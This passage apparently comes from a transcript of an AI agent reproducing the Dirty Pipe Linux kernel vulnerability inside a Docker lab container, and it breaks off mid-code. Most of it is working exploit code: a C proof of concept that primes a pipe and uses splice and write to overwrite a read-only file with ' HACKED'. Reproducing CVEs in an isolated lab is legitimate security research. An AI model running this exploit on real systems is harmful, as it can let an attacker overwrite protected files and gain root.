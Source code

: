 Let me check the kernel configuration and test with a simpler file:
```bash
docker exec -it cve-dirty_pipe-vm /bin/bash -c "
# Check kernel and test with a simple file
su - testuser -c '
echo === KERNEL INFO ===
uname -a
cat /proc/version
echo
echo === Testing on a simple file that testuser owns ===
echo \"Hello World Test\" > /tmp/simple_test.txt
cat /tmp/simple_test.txt
echo
echo === Making it read-only and trying Dirty Pipe ===
chmod 444 /tmp/simple_test.txt
ls -la /tmp/simple_test.txt

cd /data
cat > simple_file_test.c << EOF
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

static void prepare_pipe(int p[2])
{
    if (pipe(p)) abort();
    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    static char buffer[4096];
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        write(p[1], buffer, n);
        r -= n;
    }
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        read(p[0], buffer, n);
        r -= n;
    }
}

int main() {
    printf(\"BEFORE: \");
    system(\"cat /tmp/simple_test.txt\");
    
    int fd = open(\"/tmp/simple_test.txt\", O_RDONLY);
    if (fd < 0) { perror(\"open\"); return 1; }
    
    int p[2];
    prepare_pipe(p);
    
    loff_t offset = 5; // after \"Hello\"
    ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
    printf(\"splice: %zd \", nbytes);
    
    const char *data = \" HACKED\";
    nbytes = write(p[1], data, strlen(data));
    printf(\"write: %zd\\n\", nbytes);
    
    close(fd); close(p[0]); close(p[1]);
    
    printf(\"AFTER: \");
```